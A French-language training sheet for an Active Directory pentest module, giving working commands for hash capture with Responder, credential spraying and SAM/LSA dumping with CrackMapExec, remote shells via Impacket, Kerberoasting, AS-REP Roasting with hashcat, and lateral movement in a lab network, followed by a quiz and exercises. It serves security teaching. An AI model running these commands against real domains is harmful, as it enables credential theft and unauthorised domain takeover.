

---
aliases:
  - "Attaques Active Directory (AD)"
  - "01-17 | Attaques Active Directory (AD)"
archetype: cour
module: "GEN (Culture Générale & Hors Cursus)"
cssclasses:
  - max
tags:
  - attaque
  - attaque/active-directory
  - pentest
  - post-exploitation
  - mouvement-lateral
  - privileges/elevation
  - privileges/domain-admin
  - attaque/kerberoasting
  - attaque/as-rep-roasting
  - attaque/llmnr-nbt-ns-poisoning
  - hachage/ntlm
  - authentification/credentials
  - outil/responder
  - outil/crackmapexec
  - outil/impacket
  - outil/bloodhound
  - outil/mimikatz
  - microsoft/active-directory/domain-controller
  - os/windows
  - reconnaissance
  - enumeration/active-directory
  - protocole/smb
  - protocole/ldap
  - protocole/kerberos
---

# 01-17 | Attaques Active Directory (AD)

> [!goal] Objectifs Pédagogiques
> À la fin de cette fiche, je dois être capable de :
> 1.  Capturer des hashes via *Responder* (LLMNR/NBT-NS).
> 2.  Tester rapidement des *credentials* sur tout le domaine avec *CrackMapExec* (CME).
> 3.  Utiliser *Impacket* pour exécuter des commandes à distance.
> 4.  Réaliser un *Kerberoasting* et récupérer des *tickets TGS*.
> 5.  Réaliser un *AS-REP Roasting*.
> 6.  Effectuer un mouvement latéral (*lateral movement*).
> 7.  Préparer la phase d'escalade de privilèges vers *Domain Admin*.

> [!info] Contexte d'Attaque
> Vous êtes en phase de *post-exploitation*. Vous avez un premier accès sur une machine Windows ou un compte utilisateur. Votre objectif est maintenant de *monter en privilèges* dans le domaine Active Directory.

## 📝 Synthèse du Cours

Ce module fondamental aborde les techniques d'attaques essentielles pour le *pentest* d'un environnement Active Directory (AD). Il est de niveau intermédiaire à avancé et cible des éléments clés tels que le *Domain Controller* (DC), les clients Windows membres du domaine, les comptes AD simples et de service, ainsi que les services actifs SMB, LDAP et Kerberos.

Des connaissances préalables sur l'énumération SMB/LDAP (Module 3), les attaques par mot de passe (Module 6) et l'exploitation Windows (Module 8) sont nécessaires pour appréhender pleinement ce cours.

### 1. Pré-requis et Outils Essentiels

Avant de débuter ces attaques, il est impératif de disposer des éléments suivants :
*   Un accès initial à une machine du domaine (compromis).
*   Une fiche d'exposition AD (issue du Module 3).
*   Une connexion au réseau interne (ex: 192.168.56.0/24).

Plusieurs outils clés sont utilisés dans ce module :

| Outil                 | Usage                                                               | Installation                                            |
| :-------------------- | :------------------------------------------------------------------ | :------------------------------------------------------ |
| **Responder**         | Capture de hashes NTLM via LLMNR / NBT-NS.                          | `sudo apt install responder`                            |
| **CrackMapExec (CME)** | Vérification de *credentials*, *dump* SAM/LSA, exécution à distance. | `sudo apt install crackmapexec`                         |
| **Impacket scripts**  | Attaques Kerberos, exécution WinRM, SMB, WMI.                       | `sudo apt install python3-impacket` (ou installer via pip) |
| *BloodHound* (optionnel) | Cartographie graphique de l'AD.                                    |                                                         |
| *Mimikatz* (Module 10) | Extraction de *credentials*.                                        |                                                         |

### 2. Capture de Hashes NTLM avec Responder (LLMNR / NBT-NS Poisoning)

L'objectif de cette étape est de récupérer des *hashes* NTLM v2 sans nécessiter de *credentials* initiaux. *Responder* est un outil open-source Python qui exploite les protocoles de résolution de noms locaux *LLMNR* et *NBT-NS*.

> [!note] Définition Clé
> **LLMNR (Link-Local Multicast Name Resolution) et NBT-NS (NetBIOS Name Service) Poisoning** : Ces protocoles sont utilisés par les systèmes Windows pour la résolution de noms lorsque les requêtes DNS échouent. Le *poisoning* consiste pour un attaquant à *spoof* les réponses à ces requêtes, redirigeant ainsi le trafic vers son propre serveur malveillant pour capturer les tentatives d'authentification (souvent sous forme de *hashes* NTLMv2). *Responder* est l'outil privilégié pour cette technique.

**Procédure :**
1.  Lancer Responder sur l'interface réseau interne (ex: `eth1`) :
    ```bash
    sudo responder -i eth1
    ```
2.  Attendre qu'un poste du réseau effectue une requête de résolution de nom mal résolue. Responder interceptera et capturera un *hash*.
3.  Le format obtenu est généralement `user::DOMAIN:hash...`.
4.  Exporter les *hashes* capturés depuis le dossier :
    ```bash
    cd /usr/share/responder/logs
    ```
    *Critère :* Obtenir au moins un *hash* NTLM v1/v2. Ces *hashes* doivent ensuite être *crackés* (voir Module 6).

### 3. Test et Énumération de Credentials avec CrackMapExec (CME)

*CrackMapExec* (CME) est un outil puissant pour l'énumération, l'attaque et la *post-exploitation* dans les environnements Active Directory Windows. Il permet de vérifier quels systèmes acceptent des *credentials* récupérés.

**Procédure :**
1.  **Test SMB pour vérifier les *credentials* sur une plage IP :**
    ```bash
    cme smb 192.168.56.0/24 -u user -p pass
    ```
    Les résultats peuvent être : `Pwned!` (compte administrateur local), `Login failed`, `Login successful`, ou `Access denied`.
2.  **Vérifier les partages SMB :**
    ```bash
    cme smb 192.168.56.5 -u user -p pass --shares
    ```
3.  **Récupérer des informations du domaine (LSA/SAM) :**
    ```bash
    cme smb 192.168.56.5 -u user -p pass --lsa
    cme smb 192.168.56.5 -u user -p pass --sam
    ```
    CME peut énumérer les partages, *dumper* les *hashes* SAM/LSA, et découvrir les politiques de mot de passe.
    *Critère :* Trouver au moins une machine où la connexion est réussie.

### 4. Exécution de Commandes à Distance (RCE) via Impacket

*Impacket* est une collection de classes Python permettant de manipuler des protocoles réseau. Elle inclut de nombreux scripts utiles pour le *pentesting* d'Active Directory, notamment pour l'exécution à distance.

**Procédure (Exécution de commandes sur une cible Windows) :**
1.  **PSEXEC (nécessite des privilèges admin local) :**
    ```bash
    psexec.py domain/user:pass@192.168.56.6
    ```
2.  **WMIEXEC (plus discret, via WMI - Windows Management Instrumentation) :**
    ```bash
    wmiexec.py domain/user:pass@192.168.56.6
    ```
3.  **SMBEXEC (via SMB) :**
    ```bash
    smbexec.py domain/user:pass@IP
    ```
    *Résultat attendu :* Obtention d'un *shell* distant Windows (ex: `C:\Windows\System32>`).

### 5. Kerberoasting : Extraction de Tickets TGS

Le *Kerberoasting* est une attaque de *post-exploitation* qui cible le protocole d'authentification *Kerberos* utilisé dans les environnements Active Directory. Elle permet d'extraire des *tickets Kerberos TGS* (Ticket-Granting Service) pour les comptes de service associés à un *Service Principal Name* (SPN).

> [!note] Définition Clé
> **Kerberoasting** : Une attaque qui exploite le protocole Kerberos pour voler des *tickets* de service Kerberos et révéler les mots de passe en *clair* des comptes de service réseau. L'attaquant, disposant d'un compte utilisateur de domaine compromis, peut demander des *tickets* de service (TGS) pour des *SPNs* et les *cracker* hors ligne pour obtenir les *credentials* du compte de service.
> **Service Principal Name (SPN)** : Un identifiant unique qui associe une instance de service à un compte de service (utilisateur ou ordinateur) dans Active Directory. Les SPNs sont cruciaux pour l'authentification Kerberos, permettant à un client de localiser et d'authentifier un service.

**Procédure :**
1.  **Extraction des TGS avec *GetUserSPNs.py* d'Impacket :**
    ```bash
    GetUserSPNs.py domain.local/user:pass -dc-ip 192.168.56.5 -request
    ```
    *Résultat :* Obtention de *hashes* Kerberos au format `$krb5tgs$`.
2.  **Cracking des TGS avec *Hashcat* :**
    ```bash
    hashcat -m 13100 -a 0 hashes.txt rockyou.txt
    ```
    *Critère :* Obtenir au moins un mot de passe de service (ex: `svc_account`).

### 6. AS-REP Roasting (Attaque sans Pré-authentification)

L'*AS-REP Roasting* est une technique d'attaque qui cible les comptes utilisateur Active Directory configurés avec l'option "Do not require Kerberos preauthentication" activée.

> [!note] Définition Clé
> **AS-REP Roasting** : Une attaque de *credential dumping* ciblant les comptes utilisateur Active Directory pour lesquels la *pré-authentification Kerberos* est désactivée. L'attaquant peut demander une réponse d'authentification (AS-REP) pour ces comptes et capturer le *ticket* chiffré par le mot de passe, puis le *brute-forcer* hors ligne pour récupérer les *credentials* en *clair*.

**Procédure :**
1.  **Extraction avec *GetNPUsers.py* d'Impacket :**
    ```bash
    GetNPUsers.py domain.local/ -dc-ip 192.168.56.5 -usersfile users.txt
    ```
    *Résultat :* Obtention de *hashes* au format `$krb5asrep$`.
2.  **Cracking des *hashes* avec *Hashcat* :**
    ```bash
    hashcat -m 18200 -a 0 hashes.txt rockyou.txt
    ```
    *Critère :* Identifier un compte vulnérable.

### 7. Mouvement Latéral (Lateral Movement)

Le mouvement latéral est une technique post-exploitation où un attaquant se déplace à travers le réseau après avoir obtenu un accès initial à une machine, dans le but d'accéder à des systèmes plus sensibles, souvent en vue d'une escalade de privilèges vers un compte *Domain Admin*.

**Procédure :**
1.  **Lister les machines où l'utilisateur est administrateur local avec CME :**
    ```bash
    cme smb 192.168.56.0/24 -u user -p pass --local-auth
    ```
2.  **SSH latéral (si une machine Linux est compromise) :**
    ```bash
    ssh user@192.168.56.30
    ```
3.  **Saut Windows → Windows (via RDP) :**
    ```bash
    xfreerdp /u:user /p:pass /v:192.168.56.6
    ```
4.  **Dump LDAP (si *credentials* valides) :**
    ```bash
    ldapsearch -H ldap://192.168.56.5 -D "user@domain.local" -w pass -b "DC=domain,DC=local"
    ```
    *Objectif final du module :* Se rapprocher d'un compte *Domain Admin*.

### 8. Fiche d'Attaque AD (Exemple Récapitulatif)

Ce tableau récapitule des exemples de techniques d'attaque, leurs cibles, les informations obtenues, les outils utilisés, le résultat et l'impact.

| Technique            | Cible          | Hash/Info obtenue | Outil              | Résultat          | Impact |
| :------------------- | :------------- | :---------------- | :----------------- | :---------------- | :----- |
| Responder            | Client Win10   | NTLMv2            | Responder          | OK                | Medium |
| Kerberoasting        | DC             | svc_db            | Impacket + Hashcat | MDP trouvé        | High   |
| Lateral Movement     | Win10 → Server | Shell             | CME                | Succès            | High   |

## 🧠 Carte Mentale / Schéma


## ❓ Quiz de Révision (Active Recall)

> [!question] Question 1
> Quel est l'objectif principal de l'attaque *LLMNR/NBT-NS Poisoning* et quel outil est couramment utilisé pour la réaliser ?
> > [!success]- Réponse
> > L'objectif est de capturer des *hashes* NTLMv2 sans *credentials* initiaux en *spoofant* les réponses aux requêtes de résolution de noms. L'outil couramment utilisé est *Responder*.

> [!question] Question 2
> Expliquez la différence fondamentale entre *Kerberoasting* et *AS-REP Roasting*.
> > [!success]- Réponse
> > Le *Kerberoasting* cible les comptes de service associés à des *SPNs* pour voler et *cracker* leurs *tickets TGS* hors ligne. L'*AS-REP Roasting* cible les comptes utilisateur pour lesquels la *pré-authentification Kerberos* est désactivée, capturant des *tickets AS-REP* chiffrés pour les *cracker* hors ligne.

> [!question] Question 3
> Citez au moins trois outils de la suite *Impacket* et leur utilisation principale dans le cadre des attaques Active Directory.
> > [!success]- Réponse
> > *   `psexec.py`, `wmiexec.py`, `smbexec.py` : Pour l'exécution de commandes à distance (RCE) sur des machines Windows.
> > *   `GetUserSPNs.py` : Pour l'extraction de *tickets TGS* lors d'une attaque *Kerberoasting*.
> > *   `GetNPUsers.py` : Pour l'extraction de *tickets AS-REP* lors d'une attaque *AS-REP Roasting*.

## 🧪 Exercices Pratiques

### Débutant
*   Capturez un *hash* avec *Responder* et testez des *credentials* simples via *CrackMapExec*.
*   Réalisez une exécution de commande simple via `psexec.py` d'Impacket sur une machine Windows vulnérable.

### Intermédiaire
*   Effectuez une attaque de *Kerberoasting* complète, de l'extraction des *tickets TGS* au *cracking* du mot de passe avec *Hashcat*.
*   Utilisez *CrackMapExec* pour lister les machines où un utilisateur spécifique possède des privilèges d'administrateur local.

### Avancé
*   Réalisez une attaque d'*AS-REP Roasting* pour identifier un compte vulnérable.
*   Menez un scénario de *lateral movement* et initiez les premières étapes de l'escalade de privilèges vers un compte *Domain Admin*.
*   Préparez la collecte d'informations pour *BloodHound* afin de cartographier graphiquement l'Active Directory.

## ✅ Critères de Validation du Module

Un participant est considéré comme valide s'il est capable de :
1.  Capturer un *hash* avec *Responder*.
2.  Tester des *credentials* via *CrackMapExec*.
3.  Exécuter une commande distante via *Impacket*.
4.  Réaliser au moins un *Kerberoasting* ou un *AS-REP Roasting*.
5.  Réussir un mouvement latéral sur une machine.
6.  Documenter toutes les étapes et résultats dans une fiche d'attaque AD.